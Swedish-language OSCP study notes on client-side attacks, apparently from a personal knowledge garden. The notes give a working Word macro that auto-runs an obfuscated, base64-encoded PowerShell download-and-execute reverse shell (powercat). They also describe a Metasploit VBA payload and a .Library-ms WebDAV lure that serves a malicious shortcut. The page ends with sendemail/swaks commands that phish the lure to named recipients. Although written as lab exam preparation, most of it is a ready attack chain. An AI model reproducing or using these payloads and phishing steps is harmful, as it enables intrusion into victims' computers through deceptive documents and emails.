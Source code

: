 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/e. Client-side/2. Client-side Attacks/"}
---
```


### Macros:
- Välj "Word 97-2003 Document (.doc)"
- Funkar inte med .docx
- Gå till "View" -> Macros -> Skriv ett namn -> Välj dokumentet under "Macros in"
- Lägg till AutoOpen() och Document_Open()

#### Macro Reverse Shell
1. Anpassa revshell:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2. Encoda till base64:
```
www.base64encode.org

#Välj 'UTF-16LE' under 'Destination Character Set'
```
3. Skapa strängar att binda ihop i macrot m.h.a. python:
```python
str = "powershell.exe -nop -w hidden -e <bae64-encoded-string>"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Sätt ihop strängarna med resterande delar av macrot:
```python
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADEAMQA5AC4AMgAvAHAAbwB3AGUAcgBjAGEAd"
	Str = Str + "AAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwA"
	Str = Str + "gADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADgAMQAgAC0AcAAgA"
	Str = Str + "DQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsAA="
	Str = Str + "="

    CreateObject("Wscript.Shell").Run Str
End Sub
```
5. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

#### Metasploit Macro:
```
use windows/meterpreter/reverse_https  
set PAYLOAD windows/meterpreter/reverse_https  
set LHOST Your_IP_Address  
set LPORT 443  
set AutoRunScript post/windows/manager/smart_migrate  
generate -f vba
```

-------------
### Windows Library Files
- Skickar en '.Library-ms'-fil till offret
- Filsystemet i windows kopplar sig mot en uppsatt WebDAV innehållandes en '.lnk'-fil
- Svårt att servera lnk-filen direkt till offret då det mest troligt kommer filtreras bort, så därför detta bra alternativ
- Kommer se ut som ett vanligt directory i Windows vilket är legit

#### Instruktioner:
1. Skapa webdav-mapp någonstans:
```bash
mkdir /home/kali/webdav
```
2. Boota upp webdaven:
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
3. Skapa en '.Library-ms'-fil med typ VSCode
4. Fyll filen med XML-kod som gör den mer legit.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://web-dav-url</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
5. Skapa shortcut-fil på webdaven som pekar mot reverse-shell:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1'); powercat -c 192.168.45.181 -p 4444 -e powershell"
```
![Pasted image 20230706132751.png|550](/img/user/IMAGES/Pasted%20image%2020230706132751.png)
6. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

Notes:
- Bild-index -1002 = documents folder icon, -1003 = pictures folder icon
- På grund av att windows ändrar på filen i syfte att optimera kan filen sluta funka efter restart eller liknande.
- Om vill pusha confen till smb:
```bash
cd <web-dav-dir>
smbclient //<client-ip>/share -c 'put <filnamn>.Library-ms'
```
-----------------
#### SendEmail:
```bash
sendemail -f crabfeather@localhost -t dave.wizard@supermagicorg.com -a config.Library-ms -s 192.168.224.199 -m "hello mr, please open file"
```
-----------------
#### Swaks:
```
sudo swaks -t <targetmail1> -t <targetmail2> --from <authmail> --attach @config.Library-ms --server <smtpserver> --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
Example:
```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

